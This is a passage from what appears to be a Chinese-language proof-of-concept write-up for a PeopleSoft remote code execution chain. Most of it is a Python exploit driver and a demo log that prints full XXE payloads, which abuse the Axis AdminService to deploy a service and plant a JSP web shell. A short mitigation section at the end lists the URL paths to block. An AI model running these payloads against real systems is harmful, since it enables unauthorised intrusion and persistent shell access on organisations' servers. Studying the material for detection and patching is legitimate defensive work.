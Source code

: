 ```py

x = PeopleSoftRCE(URL)

try:
    x.check_all()
    x.service_deploy()
    x.build_shell()
except RuntimeError as e:
    o('-', e)
finally:
    x.service_undeploy()
```

### Demo
```bash
~/repos/poc$ python3 peoplesolft.py http://perf.a.b.c.d
| PTools version: 8.52.06
| Site ID: ps
| Target: localhost:80
<ns1:deployment xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java" xmlns:ns1="http://xml.apache.org/axis/wsdd/"><ns1:service name="YZWXOUuHhildsVmHwIKdZbDCNmRHznXR" provider="java:RPC"><ns1:parameter name="className" value="org.apache.pluto.portalImpl.Deploy"/><ns1:parameter name="allowedMethods" value="*"/></ns1:service></ns1:deployment>
<?xml version="1.0"?><!DOCTYPE IBRequest [<!ENTITY x SYSTEM "http://localhost:80/pspc/services/AdminService?method=%21--%3E%3Cns1%3Adeployment+xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22+xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22+xmlns%3Ans1%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%3E%3Cns1%3Aservice+name%3D%22YZWXOUuHhildsVmHwIKdZbDCNmRHznXR%22+provider%3D%22java%3ARPC%22%3E%3Cns1%3Aparameter+name%3D%22className%22+value%3D%22org.apache.pluto.portalImpl.Deploy%22%2F%3E%3Cns1%3Aparameter+name%3D%22allowedMethods%22+value%3D%22%2A%22%2F%3E%3C%2Fns1%3Aservice%3E%3C%2Fns1%3Adeployment"> ]><IBRequest><ExternalOperationName>&x;</ExternalOperationName><OperationType/><From><RequestingNode/><Password/><OrigUser/><OrigNode/><OrigProcess/><OrigTimeStamp/></From><To><FinalDestination/><DestinationNode/><SubChannel/></To><ContentSections><ContentSection><NonRepudiation/><MessageVersion/><Data></Data></ContentSection></ContentSections></IBRequest>
| Service deployed
| Shell URL: http://perf.a.b.c.d/PSOL/randomxxx.jsp
<ns1:undeployment xmlns="http://xml.apache.org/axis/wsdd/" xmlns:ns1="http://xml.apache.org/axis/wsdd/"><ns1:service name="YZWXOUuHhildsVmHwIKdZbDCNmRHznXR"/></ns1:undeployment>
<?xml version="1.0"?><!DOCTYPE IBRequest [<!ENTITY x SYSTEM "http://localhost:80/pspc/services/AdminService?method=%21--%3E%3Cns1%3Aundeployment+xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22+xmlns%3Ans1%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%3E%3Cns1%3Aservice+name%3D%22YZWXOUuHhildsVmHwIKdZbDCNmRHznXR%22%2F%3E%3C%2Fns1%3Aundeployment"> ]><IBRequest><ExternalOperationName>&x;</ExternalOperationName><OperationType/><From><RequestingNode/><Password/><OrigUser/><OrigNode/><OrigProcess/><OrigTimeStamp/></From><To><FinalDestination/><DestinationNode/><SubChannel/></To><ContentSections><ContentSection><NonRepudiation/><MessageVersion/><Data></Data></ContentSection></ContentSections></IBRequest>
| Service undeployed
```

![](https://raw.githubusercontent.com/shadowsock5/Poc/master/PeopleSoft/imgs/1613977109935_2.jpg)

### 缓解措施
由于没有分配CVE，不好找官方的修复建议和补丁之类的，只知道升级到最新版。在无法升级的情况下，因为XXE的利用点是`/PSIGW/HttpListeningConnector`，而部署Service的利用点是`/pspc/services`，所以作为临时措施，可以禁用以下路径：
```
- /PSIGW/HttpListeningConnector
- /pspc/services
- /pspc/services/*
- /PSOL/*
```
最后的是webshell的路径。
